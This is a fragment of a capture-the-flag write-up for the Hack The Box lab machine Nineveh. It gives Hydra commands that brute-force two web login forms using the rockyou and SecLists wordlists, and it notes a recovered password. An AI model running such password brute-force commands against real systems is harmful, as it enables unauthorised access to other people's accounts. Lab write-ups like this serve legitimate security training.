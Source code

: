 ```
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```

![](./IMG/16.png)
- Get password: ``` password123```

>Bruteforce department login
- Check login request first

![](./IMG/17.png)
- Using Hydra to bruteforce without specify username
```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```
